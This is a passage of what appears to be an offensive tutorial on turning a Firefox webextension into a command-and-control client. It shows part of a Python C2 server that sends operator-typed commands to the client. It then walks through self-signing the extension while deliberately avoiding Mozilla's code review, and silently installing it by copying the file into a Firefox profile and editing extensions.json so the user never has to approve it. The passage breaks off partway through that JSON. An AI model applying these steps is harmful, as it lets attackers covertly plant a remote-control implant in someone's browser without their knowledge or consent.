 ```python
            return 
        cmd = raw_input("$ ")
        self.wfile.write(cmd)
        return
 
    def log_message(self, format, *args):
        return

class ThreadedHTTPServer(ThreadingMixIn, HTTPServer):
    """Handle requests in a separate thread."""

if __name__ == '__main__':
    server = ThreadedHTTPServer(('localhost', 8081), Handler)
    print 'Starting server, use <Ctrl-C> to stop'
    server.serve_forever()
```
##### Generating the webextension
Now we compress  the files `manifest.json` and `background.js` as `malicious-webextension@github.io.xpi` using `zip`, then we go to [mozilla developer dashboard](https://addons.mozilla.org/en-US/developers/addon/submit/distribution) to sign our webextension.
Select the option ` On your own. Your submission will be immediately signed for self-distribution. Updates should be handled by you via an updateURL or external application updates.` upload our .xpi file, click in `Sign Add-on`, then select the option no, because we don't want Mozilla to analyse our code, click in continue, and then download the signed webextension.

#### Installing the webextension
Now to install our webextension we're not going to use the Firefox interface (because it requires user interaction). We'll edit a couple files to make Firefox detect our webextension. It's important to close all instances of Firefox while doing the webextension installation

##### webextension file
Copy the signed webextension file to `$HOME/.mozilla/firefox/profile-name/extensions`

##### extensions.json
The file `$HOME/.mozilla/firefox/profile-name/extensions.json`, is where Firefox saves what webextensions are installed, then we just need to put our webextension in this file, here's an example of the configuration.
```json
{
  "id": "malicious-webextension@github.io",
  "syncGUID": "{7b594760-d78d-410c-ad1f-34a4aaa8c3ac}",
  "version": "1.0",
  "type": "extension",
  "loader": null,
  "updateURL": null,
  "optionsURL": null,
  "optionsType": null,
  "optionsBrowserStyle": true,
  "aboutURL": null,
  "defaultLocale": {
    "name": "C2 Client",
    "description": "C2 Client",
    "creator": null,
    "developers": null,
    "translators": null,
    "contributors": null
  },
  "visible": true,
  "active": true,
  "userDisabled": false,
  "appDisabled": false,
  "installDate": 1550640880000,
  "updateDate": 1550640880000,
```